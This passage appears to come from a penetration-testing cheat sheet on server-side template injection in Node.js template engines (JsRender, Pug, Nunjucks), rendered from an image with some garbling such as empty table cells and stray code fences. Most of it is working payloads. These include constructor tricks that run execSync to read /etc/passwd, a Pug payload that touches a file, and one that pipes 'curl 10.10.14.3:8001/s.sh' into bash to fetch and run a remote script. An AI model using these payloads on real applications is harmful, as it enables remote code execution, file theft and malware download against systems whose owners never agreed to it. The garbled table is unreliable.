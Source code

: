 ```

### JsRender (NodeJS)

| **Template** | **Description**                         |
| ------------ | --------------------------------------- |
|              | Evaluate and render output              |
|              | Evaluate and render HTML encoded output |
|              | Comment                                 |
| and          | Allow code (disabled by default)        |

- \= 49

**Client Side**

```python
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```
```
**Server Side**

```bash
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
```
**More information**

- [[https://appcheck-ng.com/template-injection-jsrender-jsviews/|https://appcheck-ng.com/template-injection-jsrender-jsviews/]]

### PugJs (NodeJS)

- `#{7*7} = 49`
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`

**Example server side render**

```javascript
var pugjs = require("pug")
home = pugjs.render(injected_page)
```
```
**More information**

- [[https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/|https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/]]

### NUNJUCKS (NodeJS) 

- \{{7\*7\}} = 49
- \{{foo\}} = No output
- \#{7\*7} = #{7\*7}
- \{{console.log(1)\}} = Error

```javascript
{
  {
    range.constructor(
      "return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')"
    )()
  }
}
```